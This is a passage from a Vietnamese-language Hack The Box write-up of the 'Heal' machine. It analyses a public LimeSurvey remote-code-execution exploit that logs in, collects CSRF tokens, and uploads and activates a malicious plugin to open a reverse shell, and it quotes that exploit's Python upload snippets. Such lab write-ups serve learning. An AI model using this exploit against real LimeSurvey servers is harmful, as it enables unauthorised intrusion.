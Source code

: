 Tôi có 1 opensource tên LimeSurvey, tìm lỗ hổng của opensource này, tôi tìm thấy [Limesurvey-RCE](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE)

![six](/assets/img/2025-01-07-HTB-Heal/6.webp)

Phân tích 1 chút về lỗ hổng này. Script sẽ thực hiện khai thác RCE bằng cách đăng nhập vào hệ thống LimeSurvey, tải lên 1 plugin độc hại, cài đặt và kịch hoạt nó để mở 1 reverse shell.

Cụ thể, code sẽ cố gắng đăng nhập vào LimeSurvey để lấy CSRF token.

Sau khi đăng nhập thành công, truy cập vào trang quản lý plugin để lấy CSRF token thứ 2.

```python
Upload_creds = {
    "YII_CSRF_TOKEN": CSRF_token2,
    "lid": "$lid",
    "action": "templateupload"
}
file_upload = req.post(url+"/index.php/admin/pluginmanager?sa=upload", files={'the_file': filehandle}, data=Upload_creds)
```

Tạo payload để tải file lên

```python
UploadPage = req.get(url+"/index.php/admin/pluginmanager?sa=uploadConfirm")
print("[+] Plugin Uploaded Successfully")
```
